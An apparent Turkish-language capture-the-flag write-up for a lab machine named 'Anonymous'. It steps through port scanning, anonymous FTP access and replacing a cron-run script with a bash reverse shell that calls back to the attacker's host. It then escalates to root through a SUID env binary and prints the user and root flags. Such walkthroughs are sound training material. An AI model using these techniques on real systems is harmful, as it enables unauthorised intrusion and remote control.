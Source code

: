 # Anonymous CTF

## Adım 1: Makineye Erişim Kontrolü
Makineye erişim olup olmadığını kontrol etmek için `ping` komutunu kullanıyoruz:
```bash
ping Machine_IP 
```
## Adım 2: Nmap Taraması
Açık portları tespit etmek için Nmap kullanıyoruz:
```bash
nmap --top-ports 100 Machine_IP
```
## Adım 3: Nmap Sonucu
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 15:16 EDT
Nmap scan report for Machine_IP
Host is up (0.077s latency).
Not shown: 96 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.63 seconds
```
## Adım 4: SMB Paylaşımlarını Listeleme
139 ve 445 numaralı portlarda çalışan SMB servisini kullanarak paylaşımları listelemek için 'smbclient' komutunu kullanıyoruz:
```bash
smbclient -L Machine_IP
```
## Adım 5: SMB Paylaşım Sonuçları
Smbclient sonuçları:
```bash
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS

```
## Adım 6: FTP Servisi Tarama
Açık olan FTP servisini sömürmek için Nmap scriptlerini kullanıyoruz:
```bash
nmap --script="ftp-*" Machine_IP
```
## Adım 7: FTP Anonymous Login
FTP servisine anonymous olarak bağlanıyoruz:
```bash
ftp Machine_IP
```
FTP bağlantı çıktısı:
```bash
Connected to Machine_IP.
220 NamelessOne's FTP Server!
Name (Machine_IP:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
## Adım 8: Dosya Listesi ve İnceleme
FTP'de ls komutuyla dosya listesini görüntüleyip, dosyaları indiriyoruz:
```bash
ftp> ls
ftp> get clean.sh
ftp> get removed_files.log
ftp> get to_do.txt
```
## Adım 9: Cronjob Exploit
clean.sh dosyasını inceledikten sonra, bunun crontab'de çalışan bir script olduğunu fark ediyoruz. Kendi reverse shell scriptimizi yazıyoruz:
```bash
#!/bin/bash
bash -i >& /dev/tcp/tun0_IP/PORT 0>&1
```
## Adım 10: Netcat ile Dinleme
Netcat kullanarak bir dinleyici başlatıyoruz:
```bash
nc -nvlp PORT
```
## Adım 11: Exploit Yükleme
Hazırladığımız clean.sh scriptini makineye yüklüyoruz:
```bash
ftp> put clean.sh clean.sh
```
## Adım 12: Shell Erişimi
Crontab'in çalışmasını bekledikten sonra Netcat üzerinden shell erişimi sağlıyoruz:
```bash
listening on [any] 4444 ...
connect to [tun0_IP] from (UNKNOWN) [Machine_IP] 37538
bash: cannot set terminal process group (1245): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
90d6f992585815ff991e68748c414740  # User flagi burada yakalıyoruz.
```
## Adım 13: Yetki Yükseltme
Root yetkisi kazanmak için SUID dosyalarını arıyoruz:
```bash
find / -type f -perm -4000 2>/dev/null
```
Ardından, sudo yetkileriyle çalıştırılabilecek komutları/dosyaları inceliyoruz:
```bash
/usr/bin/env 'i root olarak çalıştırabiliyoruz.
```
## Adım 14: Root Erişimi
env komutunu kullanarak root yetkisi elde ediyoruz:
```bash
/usr/bin/env install -m =xs $(which env) .
./env /bin/sh -p # Bundan sonra root oluyoruz
```
Root olduktan sonra root flagini buluyoruz:
```bash
cd /root
cat root.txt
4d930091c31a622a7ed10f27999af363
```
